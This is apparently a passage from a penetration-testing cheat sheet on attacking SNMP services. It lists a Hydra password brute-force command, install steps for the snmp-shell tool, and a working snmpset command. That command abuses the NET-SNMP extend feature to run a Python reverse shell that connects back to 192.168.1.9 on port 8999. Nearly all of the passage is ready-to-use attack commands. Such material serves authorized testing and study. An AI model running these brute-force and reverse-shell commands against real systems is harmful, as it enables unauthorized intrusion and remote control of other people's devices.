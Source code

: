 ```bash

Entry_5:
  Name: Hydra Brute Force
  Description: Need Nothing
  Command: hydra -P {Big_Passwordlist} -v {IP} snmp
  
  
```

#### Running the Injected Commands <a href="#running-the-injected-commands" id="running-the-injected-commands"></a>

snmp-shell

```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

OR&#x20;

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 192.168.1.7 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"192.168.1.9\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'

```
